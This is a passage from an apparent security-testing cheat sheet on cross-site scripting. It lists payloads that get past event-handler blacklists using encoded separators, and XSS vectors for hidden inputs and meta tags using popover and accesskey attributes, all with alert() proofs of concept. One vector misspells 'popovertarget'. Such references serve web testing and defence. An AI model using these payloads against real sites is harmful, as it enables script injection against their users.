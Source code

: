 ### on Event Handlers Bypass

First of all check this page ([https://portswigger.net/web-security/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)) for useful **"on" event handlers**.\
In case there is some blacklist preventing you from creating this even handlers you can try the following bypasses:

```javascript
<svg onload%09=alert(1)> //No safari
<svg %09onload=alert(1)>
<svg %09onload%20=alert(1)>
<svg onload%09%20%28%2c%3b=alert(1)>

//chars allowed between the onevent and the "="
IExplorer: %09 %0B %0C %020 %3B
Chrome: %09 %20 %28 %2C %3B
Safari: %2C %3B
Firefox: %09 %20 %28 %2C %3B
Opera: %09 %20 %2C %3B
Android: %09 %20 %28 %2C %3B
```

### XSS in "Unexploitable tags" (hidden input, link, canonical, meta)

From [**here**](https://portswigger.net/research/exploiting-xss-in-hidden-inputs-and-meta-tags) **it's now possible to abuse hidden inputs with:**

```html
<button popvertarget="x">Click me</button>
<input type="hidden" value="y" popover id="x" onbeforetoggle=alert(1)>
```

And in **meta tags**:

```html
<!-- Injection inside meta attribute-->
<meta name="apple-mobile-web-app-title" content=""Twitter popover id="newsletter" onbeforetoggle=alert(2) />
<!-- Existing target-->
<button popovertarget="newsletter">Subscribe to newsletter</button>
<div popover id="newsletter">Newsletter popup</div>
```

From [**here**](https://portswigger.net/research/xss-in-hidden-input-fields): You can execute an **XSS payload inside a hidden attribute**, provided you can **persuade** the **victim** into pressing the **key combination**. On Firefox Windows/Linux the key combination is **ALT+SHIFT+X** and on OS X it is **CTRL+ALT+X**. You can specify a different key combination using a different key in the access key attribute. Here is the vector:

```markup
<input type="hidden" accesskey="X" onclick="alert(1)">
```

**The XSS payload will be something like this: `" accesskey="x" onclick="alert(1)" x="`**
